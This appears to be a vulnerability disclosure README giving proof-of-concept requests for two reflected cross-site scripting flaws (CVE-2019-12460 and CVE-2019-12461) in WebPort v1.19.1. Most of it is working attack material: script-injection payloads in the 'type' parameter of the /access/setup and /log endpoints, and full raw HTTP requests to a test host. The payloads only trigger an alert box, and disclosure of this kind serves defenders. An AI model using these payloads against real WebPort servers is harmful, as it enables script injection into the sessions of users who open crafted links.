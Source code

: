# WebPort-v1.19.1-Reflected-XSS
Reflected XSS in [WebPort-v1.19.1](http://webport.se) impacts users who open a maliciously crafted link or third-party web page.

# CVE-2019-12460
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12460

# PoC-1
To exploit vulnerability, someone could use **'http://[server]:8090/access/setup?type="</script><script>alert('xss');</script><script>'** request to impact users who open a maliciously crafted link or third-party web page.

```
GET /access/setup?type=%22%3C/script%3E%3Cscript%3Ealert(%27xss%27);%3C/script%3E%3Cscript%3E HTTP/1.1
Host: 172.16.165.182:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: __tiny_sessid=6361847c-952b-45ba-874c-71f1794ffe37
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/WebPort-Reflected-XSS-01.png)

# CVE-2019-12461
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12461

# PoC-2
To exploit vulnerability, someone could use **'http://[server]:8090/log?type="</script><script>alert('xss');</script><script>'** request to impact users who open a maliciously crafted link or third-party web page.
  
```
GET /log?type=%22%3C/script%3E%3Cscript%3Ealert(%27xss%27);%3C/script%3E%3Cscript%3E HTTP/1.1
Host: 172.16.165.182:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: __tiny_sessid=6361847c-952b-45ba-874c-71f1794ffe37
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/WebPort-Reflected-XSS-02.png)
